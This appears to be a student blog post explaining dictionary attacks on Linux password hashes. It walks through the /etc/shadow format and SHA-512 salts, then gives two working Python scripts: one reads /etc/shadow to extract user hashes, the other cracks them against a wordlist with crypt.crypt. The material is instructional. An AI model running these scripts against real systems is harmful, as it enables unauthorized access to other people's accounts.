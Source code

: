 ```yaml
---
layout: post
title: "Spring Blog 2: Dictionary Attack in Python"
---
```


An alternative to the Brute Force is a Dictionary Attack. With this attack, we will use a word list (a dictionary) and apply each one of those words to see if they match a password in Linux. BUT, there's a catch...

Linux, or any secure OS or application for that matter, doesn't store passwords in plaintext. Instead, passwords are hashed, and the hash is stored on the system instead. Also, hashes can not be reverse engineered, so we can't really write a script to reverse the hash and find a plaintext password. These hashes are stored in /etc/shadow. Let's take a look at a sample user in the /etc/shadow file:

**root:$6$KjuD.NJOE.5mJmev$ff/DvQCgsOeM9By4hGeOnfyjQdk97qe0BCtvnsBrSDHYLMIib17gHP4yJm.KLdCbalntGvTX8bxcbBT6dGPO0:18690:0:99999:7:::**

The information before the second colon is what we need. Here we have $user:$hash. Specifically, we need the hash to make this work out, so let's examine the hash.

**$6$KjuD.NJOE.5mJmev$ff/DvQCgsOeM9By4hGeOnfyjQdk97qe0BCtvnsBrSDHYLMIib17gHP4yJm.KLdCbalntGvTX8bxcbBT6dGPO0**

Notice the 3 dollar signs, these are important. The $6 signifies the hashing algorithm (SHA-512 in this case). The next dollar signs marks the beginning of the **salt** characters, which are characters added to the hash for extra security. The last dollar sign marks the rest of the hash. So in order to test a hash, we need to do the following:

- Extract the salt value: $[number]$[salt characters]$[rest of hash]
- Use a hashing tool (in this case, we will be using crypt.crypt() in Python)
- Use a dictionary to test every single word to check for a match

I wrote the following scripts myself. The first script will take an /etc/shadow file, find users with hashes (with current passwords), and remove any unnecessary information:

	
	shadow = open("/etc/shadow", "r")

	newfile = ""

	for line in shadow:
	    x = line.split(":", 5)
	    if x[1].startswith('$'):
		newfile += x[0] + ":" + x[1] + "\n"
	    else:
		continue

	print(newfile)
	
The next script will break down the hashes, extract the salt values, hash each word with crypt.crypt([$word], [$salt]), and test each word from our wordlist (ours is called dictionary.txt):

	import crypt


	dictionaryFile = open("/root/Documents/dictionary.txt", "r")
	line = dictionaryFile.read().splitlines()

	hashesFile = open("/root/Documents/hashes.txt", "r")
	hashLine = hashesFile.read().splitlines() 
	userPlusPassword = ""

	for x in hashLine:
	    if x == "":
		break
	    else:
		username = x.split(':')[0]
		hashp = x.split(':')[1]

		salt = hashp.split('$')[0] + "$" + hashp.split('$')[1] + "$" + hashp.split('$')[2] + "$"

		for y in line:
		    testWord = crypt.crypt( y , salt )
		    if testWord == hashp:
			userPlusPassword += (username + ":" + y + "\n")

		    else:
			continue

	print(userPlusPassword)
	
For a list of 5 passwords and a list of 1000000 possible choices in the dictionary, this took about 7 minutes to crack. You can modify these scripts to use whatever files you would like to use. Just remember to redirect the output from the first script to a hash file (that would be hashes.txt in my case), and you can use the second script above to perform a dictionary attack.
